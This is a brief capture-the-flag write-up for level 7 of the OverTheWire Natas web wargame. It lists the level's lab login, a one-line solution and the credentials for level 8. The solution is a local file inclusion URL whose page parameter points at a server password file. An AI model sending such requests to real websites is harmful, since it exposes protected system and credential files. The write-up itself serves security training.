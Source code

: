 ### Natas Level 7 

[natas7](http://natas7.natas.labs.overthewire.org)

**Username**: *natas7*

**Password**: *7z3hEENjQtflzgnT29q7wAvMNfZdh0i9*


### Solution

- Open file
  [http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8](http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8)

#### Credentials for Level 8 

**Username**: *natas8*

**Password**: *DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe*
